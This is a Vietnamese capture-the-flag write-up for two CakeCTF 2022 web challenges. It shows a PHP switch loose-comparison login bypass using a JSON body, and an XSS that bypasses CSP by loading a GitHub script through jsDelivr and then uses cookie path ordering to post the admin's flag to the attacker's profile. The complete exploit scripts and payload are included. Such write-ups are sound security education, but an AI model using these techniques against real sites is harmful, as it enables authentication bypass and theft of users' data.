

# CakeCTF 2022

# web/CAKEGEAR

Bài này là một bài khá dễ, tập trung vào `loose comparison` trong PHP

Đọc src code, dễ thấy ta sẽ lấy được flag nếu role của ta là admin `$_SESSION['admin'] === true`

```php
if ($_SESSION['admin'] === true) {
    $mode = 'admin';
    $flag = file_get_contents("/flag.txt");
} else {
    $mode = 'guest';
    $flag = "***** Access Denied *****";
}
```

Để có role admin, ta có 2 cách: đăng nhập bằng username `godmode` hoặc  `admin`, được phân loại ở phần switch-case.

Ta không cần mật khẩu nếu đăng nhập bằng `godmode`, tuy nhiên server sẽ kiểm tra xem địa chỉ IP của ta có phải trong localhost không ở đoạn `if ($req->username === 'godmode && !in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1']))`.

Còn nếu đăng nhập bằng admin, ta sẽ phải nhập mật khẩu admin, sau đó server sẽ check SHA1 mật khẩu ta nhập có trùng với SHA1 mật khẩu lưu trên server không. Do coder sử dụng `===` để kiểm tra mật khẩu nên ta không thể khai thác `type juggling` ở đây.

```php
if (isset($req->username) && isset($req->password)) {
    if ($req->username === 'godmode'
        && !in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.2', '::2'])) {
        /* Debug mode is not allowed from outside the router */
        $req->username = 'nobody';
    }

    switch ($req->username) {
        case 'godmode':
            /* No password is required in god mode */
            $_SESSION['login'] = true;
            $_SESSION['admin'] = true;
            break;

        case 'admin':
            /* Secret password is required in admin mode */
            if (sha1($req->password) === ADMIN_PASSWORD) {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = true;
            }
            break;

        case 'guest':
            /* Guest mode (low privilege) */
            if ($req->password === 'guest') {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = false;
            }
            break;
    }
```

Tuy nhiên, cấu trúc `[switch-case` trong PHP sử dụng `loose comparison`](https://www.php.net/manual/en/control-structures.switch.php)



Dựa vào bảng `Loose comparisons`, ta có thể thấy phép so sánh `“php”==true` trả về giá trị `true`

Hơn nữa body của request gửi lên server lại là dạng JSON có hỗ trợ giá trị boolean

→ Ta có thể gửi request với body

```
  {"username":true,"password":"a"}
```


Bằng việc để `username` là `true`, ta sẽ tránh được phần kiểm tra địa chỉ IP do phần đó coder sử dụng `strict comparison ===`. Nhưng khi đến phần `switch-case` thì lại sử dụng `loose comparison` nên khi so sánh với `“godmode”` sẽ trả về true luôn.

Sau khi đăng nhập thành công, session của ta đã có role admin. Gửi request GET đến `/admin.php` để lấy flag là xong việc!


---

# web/openbio

### Kiểm tra tính năng của website

Website cho ta đăng kí và đăng nhập


Đăng kí một tài khoản, website sẽ tự động reload.


Ấn nút copy link và mở link vừa copy ở tab mới, nhận ra ngay website cho phép ta sử dụng các tag HTML


Update profile để test các tag HTML


Như vậy website không filter tag nào, tuy nhiên `alert(1)` lại không được thực thi.


Chuyển sang tab Console trong Devtool để xem chi tiết


À, như vậy website đã sử dụng CSP để không cho phép thực hiện `inline script` bất kì

Ngoài ra, ở trang profile còn có nút report spam để báo cáo profile này 


→ Khả năng rất cao bài này là về `XSS`

### Khai thác!

Đọc file `crawler.js` ta thấy flag sẽ nằm ở profile của admin.

```jsx
await page.goto(base_url + '/', {timeout: 3000});
await page.$eval('#bio', element => element.value = '');
await page.type('#bio', "You hacked me! The flag is " + flag);
await page.click('#update');
await wait(1000);
```

Đọc file `app.py`

```python
@app.after_request
def after_request(response):
    csp = ""
    csp += "default-src 'none';"
    if 'csp_nonce' in flask.g:
        csp += f"script-src 'nonce-{flask.g.csp_nonce}' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';"
    else:
        csp += f"script-src https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';"
    csp += f"style-src https://cdn.jsdelivr.net/;"
    csp += f"frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;"
    csp += f"base-uri 'none';"
    csp += f"connect-src 'self';"
    response.headers['Content-Security-Policy'] = csp
    return response
```

Như vậy mỗi response gửi về client sẽ chứa thêm header `Content-Security-Policy`. Header này có một số chỉ dẫn quan trọng như 

- `script-src` báo cho browser chỉ được thực thi `script` từ các nguồn [https://cdn.jsdelivr.net/,](https://cdn.jsdelivr.net/) [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/), [https://www.gstatic.com/recaptcha/](https://www.gstatic.com/recaptcha/) hoặc từ tag `script` có attribute `nonce={một dãy random}`. Đó là lí do lúc trước ta không thể thực hiện `alert(1)`
- `connect-src` báo cho browser không được kết nối với bất kì URL nào (ngoài domain hiện tại) khi sử dụng `script`

Do đó mặc dù website đã thả cho ta sử dụng các HTML tag thoải mái bằng cách dùng `{{ bio|safe }}`

```html
<div class="uk-container">
    <h1>
        {{ username }}'s Profile
        <a id="copy" class="uk-icon-button" uk-icon="link" uk-tooltip="Copy link"></a>
        <a id="report" class="uk-icon-button" uk-icon="warning" uk-tooltip="Report spam"></a>
    </h1>
    <p class="uk-text-large">{{ bio|safe }}</p>
</div>
```

ta vẫn không thể thực hiện XSS bằng tag `script` thông thường (do vi phạm `script-src`)

Do đó ta sẽ cần load script từ một trong các URL được cho phép trong `script-src`. May mắn thay [`jsdelivr`](https://cdn.jsdelivr.net/) cho phép ta load script từ Github 


→ ta có thể push file js lên Github và dùng `jsdelivr` để load nó mà không vi phạm CSP của website.

Script để lấy flag:

```jsx
xhr = new XMLHttpRequest();

// Get flag
let flag;
xhr.open("GET", "/", false);
xhr.onload = function () {
    flag = /CakeCTF{.*}/.exec(xhr.response)[0];
};
xhr.send(null);
```

Như vậy ta đã giải quyết xong vấn đề thực thi script để lấy flag. Còn một vấn đề nữa ta cần giải quyết: làm thế nào để ta có thể đọc flag?

Do website chặn outbound bằng chỉ dẫn `connect-src 'self';`, do đó ta không thể dùng `fetch` đến một endpoint của ta để lấy flag. Như vậy ta chỉ còn cách dựa vào những tính năng của website để đọc flag mà thôi.

Ta có một sô phân tích như sau:

- Thứ nhất, cookie session nằm ở path `/` và được set flag `HttpOnly`, do đó ta không thể sửa hoặc lấy giá trị của cookie này
    
    
    
- Có thể thấy khi update một profile, website sẽ gửi request POST đến `api/user/update` với body gồm 2 params: `bio` là nội dung profile được sửa, và `csrf_token`
    
    
    
- Ngoài ra, khi gửi một request với 2 cookie session, ta thấy server Flask sẽ sử dụng cookie đầu tiên
    
    
    
    
    
    và thứ tự cookie khi gửi đi sẽ được [dựa trên độ dài của path của nó](https://daniel.haxx.se/blog/2010/01/20/cookie-order/)
    

Vì path của cookie session ban đầu là `/`, nên nếu ta set cookie thêm một của ta cho path `/api/user/update` thì khi ta gửi request đến path này, browser sẽ gửi 2 cookie session và cookie ở path này sẽ được xếp trước path `/`

Kiểm tra: set cookie cho path `/api/user/update` và gửi XHR đến path đó


Kết quả trong Burp: ta có 2 cookie session và cookie ở path `/api/user/update` được xếp trước


Như vậy ta chỉ cần set cookie session của ta cho `/api/user/update`, lấy `csrf_token` của ta và gửi request đổi profile là sẽ có được flag

Script ví dụ sử dụng XHR

```jsx
// Set our account cookie for /api/user/update
document.cookie = "session=eyJjc3JmX3Rva2VuIjoiMGIxMzYwMjc5YWFlYTAyOTU2OTNlNmE1MDE1Y2QyN2Q0Y2EwOWJiOCIsInVzZXIiOiIxMjM0NTY3OCJ9.Yxhk-Q.e1-HkpckpFGB07p-qbZvZ5tBW5k; path=/api/user/update"

// Set csrf_token to our csrf_token
let csrf = "IjBiMTM2MDI3OWFhZWEwMjk1NjkzZTZhNTAxNWNkMjdkNGNhMDliYjgi.Yxhqhg.fpyT9r_MmHtm_4ZL-iZzgShCDoc";

// Post flag to our profile
xhr.open("POST", "/api/user/update", false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')
data = `bio=${flag}&csrf_token=${csrf}`;
console.log(data);
xhr.send(data);
```

Script hoàn chỉnh

```jsx
xhr = new XMLHttpRequest();

// Get flag
let flag;
xhr.open("GET", "/", false);
xhr.onload = function () {
    flag = /CakeCTF{.*}/.exec(xhr.response)[0];
};
xhr.send(null);

// Set our account cookie for /api/user/update
document.cookie = "session=eyJjc3JmX3Rva2VuIjoiMGIxMzYwMjc5YWFlYTAyOTU2OTNlNmE1MDE1Y2QyN2Q0Y2EwOWJiOCIsInVzZXIiOiIxMjM0NTY3OCJ9.Yxhk-Q.e1-HkpckpFGB07p-qbZvZ5tBW5k; path=/api/user/update"

// Set csrf_token to our csrf_token
let csrf = "IjBiMTM2MDI3OWFhZWEwMjk1NjkzZTZhNTAxNWNkMjdkNGNhMDliYjgi.Yxhqhg.fpyT9r_MmHtm_4ZL-iZzgShCDoc";

// Post flag to our profile
xhr.open("POST", "/api/user/update", false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')
data = `bio=${flag}&csrf_token=${csrf}`;
console.log(data);
xhr.send(data);
```

Lưu script vào một file js, push lên Github và sử dụng `jsdelivr` để load (ví dụ như [https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js](https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js))

Update profile của ta thành (lưu ý ta nên sử dụng 2 account: account thực hiện XSS và account nhận flag)

```jsx
<script src="https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js"></script>
```

Copy link profile, đăng nhập vào account nhận flag, mở link ta vừa copy và ấn report spam. Back về trang profile của account nhận flag sẽ thấy có flag